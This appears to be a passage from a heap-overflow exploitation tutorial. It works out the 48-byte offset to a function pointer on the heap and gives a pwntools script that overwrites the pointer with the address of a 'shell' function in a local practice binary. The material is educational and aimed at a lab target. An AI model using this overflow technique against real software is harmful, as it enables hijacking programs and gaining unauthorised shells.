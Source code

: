 Now we get over lovely `segfault` because over function pointer  calls the `0x61616161616161` which is not a valid address and that’s why we get segfault. So the exploitation phases is very easy we just have to calculate how many bytes we have to overwrite so we can write the address `shell` function to the function pointer. 

There are two ways to calculate the address you can choose any one you like i will show you the both. 

***Using the cyclic pattern*** 

![Screenshot at 2024-09-26 19-07-09.png](Heap%20Exploitation%20Part%203%20%7BHeap%20Overflow%7D%2039636a134fcd474aa1c13f9990b1fb87/91c15284-d609-4547-977c-fa7f77b1a58f.png)

***Using Heap Layout***

![Screenshot at 2024-09-26 17-32-33.png](Heap%20Exploitation%20Part%203%20%7BHeap%20Overflow%7D%2039636a134fcd474aa1c13f9990b1fb87/Screenshot_at_2024-09-26_17-32-33%201.png)

Over input gets written at `0x4052a0` and the function pointer value stored at `0x4052d0` if we minus `0x4052d0 - 0x4052a0` we get `0x30` which converted to integer is `48` so we need to pass `48` `A` followed by the address of `shell` function. 

### **Exploit**

```python
#!/bin/python3

from pwn import *

context(os="linux",arch="amd64")

binary = "./overflow"
elf = ELF(binary)

payload = (b'A'* 48 + flat(elf.sym['shell'])).replace(b'\x00',b'')

target = elf.process(argv=[payload])

print(target.clean().decode('utf-8'))
target.interactive()
```
